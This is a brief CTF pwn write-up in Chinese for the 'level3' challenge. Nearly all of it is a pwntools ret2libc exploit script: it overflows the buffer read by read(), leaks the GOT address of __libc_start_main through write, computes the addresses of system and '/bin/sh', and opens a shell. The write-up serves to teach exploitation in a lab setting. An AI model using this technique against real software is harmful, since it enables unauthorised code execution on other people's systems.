

检查程序保护


反汇编




栈溢出发生在read函数，可以利用write函数来泄露got

payload如下

```python
from pwn import*
import time

level3 = ELF('./level3')
sh = process('./level3')

#gdb.attach(sh)
#sleep(15)

libc_main_got = level3.got['__libc_start_main']
write_plt = level3.plt['write']
vulnerable_function_address = level3.symbols['vulnerable_function']
sh.recvline()

payload = flat([b'a'*140,p32(write_plt),p32(vulnerable_function_address),p32(1),p32(libc_main_got),p32(4)])

sh.send(payload)
data = sh.recvline()
libc_main_address = data[:4]
libc_main_address = int.from_bytes(libc_main_address, byteorder='little')

system_address = libc_main_address + 0x269A0
binsh_address = libc_main_address + 0x173583
payload = flat([b'a'*140,p32(system_address),0xcafecafe,p32(binsh_address)])

sh.send(payload)

sh.interactive()


```

